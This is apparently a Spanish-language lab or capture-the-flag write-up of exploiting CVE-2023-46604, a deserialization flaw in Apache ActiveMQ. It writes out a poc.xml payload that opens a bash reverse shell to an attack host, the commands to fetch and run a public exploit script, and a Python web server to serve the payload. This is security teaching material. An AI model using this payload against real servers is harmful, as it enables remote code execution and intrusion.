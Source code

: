 Buscando información sobre posibles exploits para esta versión encontramos que hay un  [CVE-2023-46604](https://github.com/advisories/GHSA-crg9-44h2-xw35)

![image](https://github.com/user-attachments/assets/ee5a3e70-473b-4f27-a23a-ae15059beeef)


## 💣 Explotación

#### CVE-2023-46604

CVE-2023-46604 es una vulnerabilidad de deserialización que existe en el protocolo OpenWire de Apache ActiveMQ. Este defecto puede ser explotado por un atacante para ejecutar código arbitrario en el servidor donde se ejecuta ActiveMQ. El exploit script de este repositorio automatiza el proceso de enviar una petición crafteada al servidor para activar la vulnerabilidad.

Descargamos el siguiente exploit:

```bash
git clone https://github.com/evkl1d/CVE-2023-46604.git
```

Editamos el archivo poc.xml para especificar en la reverse shell nuestro host y puerto de ataque:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.14.7/9001 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>

```

El exploit necesita ser ejecutado especificando los siguientes argumentos:

```bash
python exploit.py -i <target-ip> -p <target-port> -u <url-to-poc.xml>
```

Necesitamos previamente disponibilizar el payload poc.xml en un servidor web, para ello  levantaremos un servidor web con python:

```bash
python3 -m http.server 80
```

Lanzamos el exploit y ganamos acceso remoto al servidor como usuario activemq:
